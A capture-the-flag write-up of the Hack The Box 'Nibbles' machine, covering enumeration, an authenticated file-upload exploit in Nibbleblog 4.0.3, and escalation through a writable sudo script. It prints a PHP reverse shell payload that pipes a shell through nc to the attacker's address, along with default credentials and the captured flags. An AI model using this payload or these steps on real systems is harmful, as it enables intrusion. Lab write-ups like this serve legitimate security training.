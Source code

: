 # HTB: Nibbles  
## Engagement Overview
**Target:** HTB Nibbles  
**Box IP:** 10.10.10.75  
**Local IP:** 10.10.14.7  
**Date:** 07-20-2025

---

### Objectives
- Enumerate services to discover web applications and credentials.
- Exploit an arbitrary file upload vulnerability in Nibbleblog.
- Escalate privileges via misconfigured sudo permissions to obtain root access.

---

## Service Enumeration

### Nmap Results
```
nmap -sV -sC -A 10.10.10.75
```
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

- Web server on port 80 hosted a Nibbleblog CMS.
- Detected Nibbleblog version: **v4.0.3 Codename: Coffee** (2014-04-01)

### Gobuster Results
```
gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 20
```
Key findings:
- `/admin.php` – Admin login page
- `/content/`, `/plugins/`, `/themes/`, `/languages/` – Exposed directories
- `/README`, `/LICENSE.txt`, `/COPYRIGHT.txt` – Info disclosure
- `/install.php`, `/update.php` – Should have been removed after setup

---

## Methodologies

### Initial Access – Arbitrary File Upload

**Vulnerability:**  
- CVE-2015-6967 – Authenticated file upload vulnerability in Nibbleblog 4.0.3  
  [https://www.cve.org/CVERecord?id=CVE-2015-6967](https://www.cve.org/CVERecord?id=CVE-2015-6967)

**Credentials:**
```
Username: admin
Password: nibbles
```

**Payload:**
```php
<?php system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.7 5454 > /tmp/f"); ?>
```

**Exploit:**
```bash
python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php
```

**Result:**
- Reverse shell obtained on port 5454 as web user.

---

## Privilege Escalation

```bash
sudo -l
```

Output:
```
User nibbler may run the following command without password:
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Initial attempt to inject reverse shell into `monitor.sh` failed due to syntax issues.

**Working escalation method:**
```bash
echo "bash -i" > monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```

**Result:**
- Root shell obtained.
- Accessed `/root/root.txt`.

---

## House Cleaning

- No cleanup required; no persistence or destructive changes made.

---

## Post-Exploitation

### Credentials & Flags
- `user.txt`: `caafc6db3f2edcfadb67939c0bfc8be7`  
- `root.txt`: `3326a0f327a5b3466a5ca7016471485e`

---

## Tools Utilized

* `nmap`, `gobuster`, `netcat`
* `exploit.py`, `shell.php` (reverse shell payload)
* Python3, Bash

---

## Key Takeaways

* Old CMS versions often contain known exploits like CVE-2015-6967.
* Default credentials (`admin:nibbles`) still work — always try basic credential stuffing.
* Misconfigured `sudo` scripts can offer root access — even a writable `.sh` file is a goldmine.
* If a reverse shell payload fails, test simpler command injection like `bash -i` to reduce syntax errors.
